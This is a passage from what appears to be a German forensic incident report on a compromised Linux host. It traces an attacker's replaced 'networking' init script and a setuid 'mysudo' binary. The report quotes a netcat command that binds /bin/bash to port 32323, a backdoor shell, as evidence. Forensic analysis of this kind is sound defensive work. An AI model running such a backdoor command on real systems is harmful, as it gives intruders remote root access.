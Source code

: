 Ein \texttt{ls -lah /home/evil/} zeigt folgende Ausgabe:
\begin{verbatim}
drwxr-xr-x 2 1001 root 4,0K Jan 28  2010 . 
drwxr-xr-x 5 root root 4,0K Jan 28  2010 .. 
-rw------- 1 1001 root  229 Jan 28  2010 .bash_history 
-rw-r--r-- 1 1001 root  220 Mai 12  2008 .bash_logout 
-rw-r--r-- 1 1001 root 3,1K Mai 12  2008 .bashrc 
-rwxr-xr-x 1 1001 root 1,3K Jan 28  2010 bdstart.sh 
-rwxr-xr-x 1 1001 root 1,9K Jan 28  2010 networking 
-rw-r--r-- 1 1001 root  675 Mai 12  2008 .profile
\end{verbatim}

Als erstes wurde die \texttt{networking} Datei näher betrachtet. Hierbei handelt es sich um ein Skript welches wahrscheinlich das Original unter \texttt{/etc/init.d/} ersetzen soll. Ein \texttt{diff /etc/init.d/networking /home/evil/networking} bestätigte diese vermutung. Wenn nun das Skript mit dem Parameter \texttt{start} aufgerufen wird, wird unter den normalen Befehlen ausserdem folgende Zeile ausgeführt \hl{referenz auf networking}:
\begin{verbatim}
/usr/local/bin/mysudo "/var/www/upload/netcat -nvv \
											 -l \
											 -e /bin/bash \
											 -p 32323"
\end{verbatim}
Diese Zeile führt das Program \texttt{mysudo} aus und öffnet eine \texttt{netcat} Listening Verbindung auf dem Port 32323 welche mit dem Schalter \texttt{-e} nach der Verbindung eine \texttt{bash} Shell öffnet.

Nach der Feststellung, dass der Angreifer mit \texttt{root}-Rechten agiert hat wurde die \texttt{.bash\_history}\ref{historyroot} des \texttt{root}-Benutzers untersucht.
Aufmerksamkeit erregte die Bearbeitung eines \texttt{mysudo} Programs.
Bei näherer Untersuchung wurde festgestellt, dass einer Binärdatei namens \texttt{mysudo} das \texttt{setuid} Bit gesetzt wurde, der Eigentümer auf \texttt{root:root} geändert und sie vom \texttt{/home/}-Verzeichniss des Benutzers \texttt{itf} nach \texttt{/usr/local/bin} verschoben wurde, was sie ausführbar für jeden Benutzer des Systems macht. Diese Aktionen wurden ausgeführt bevor der Angreifer auf das System kam \hl{referenz timestamps} was vermuten läßt, dass der Administrator diese ausgeführt hat.

Über die \texttt{.bash\_history} kann man die Befehle welche der Benutzer absetzte einsehen. \ref{historyevil}
Der Umstand, dass diese ebenfalls von Angreifern modifizierbar ist muss berücksichtigt werden. Manipulationen an dieser Datei sind ist anhand der MAC-Timestamps nicht nachvollziehbar da bei jeder Ausführung eines Befehls der \texttt{modification} und \texttt{change} Timestamp gestzt werden.\\

